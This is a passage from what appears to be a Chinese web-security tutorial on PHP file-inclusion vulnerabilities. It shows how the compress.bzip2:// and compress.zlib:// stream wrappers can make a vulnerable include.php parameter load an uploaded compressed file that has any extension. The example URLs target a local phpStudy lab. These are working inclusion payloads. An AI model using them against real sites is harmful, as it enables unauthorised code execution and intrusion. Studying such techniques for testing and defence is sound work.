      ![图片描述](PictureFile/【Web】TOP漏洞.assets/bVbrQBj.jpeg)

  2. `compress.bzip2://file.bz2`

     压缩 phpinfo.txt 为 phpinfo.bz2 并上传（同样支持任意后缀名）

     ```http
     http://127.0.0.1/include.php?file=compress.bzip2://E:\phpStudy\PHPTutorial\WWW\phpinfo.bz2
     ```

     ![图片描述](PictureFile/【Web】TOP漏洞.assets/bVbrQBt.jpeg)

  3. `compress.zlib://file.gz`

     压缩 phpinfo.txt 为 phpinfo.gz 并上传（同样支持任意后缀名）

     ```http
     http://127.0.0.1/include.php?file=compress.zlib://E:\phpStudy\PHPTutorial\WWW\phpinfo.gz
     ```

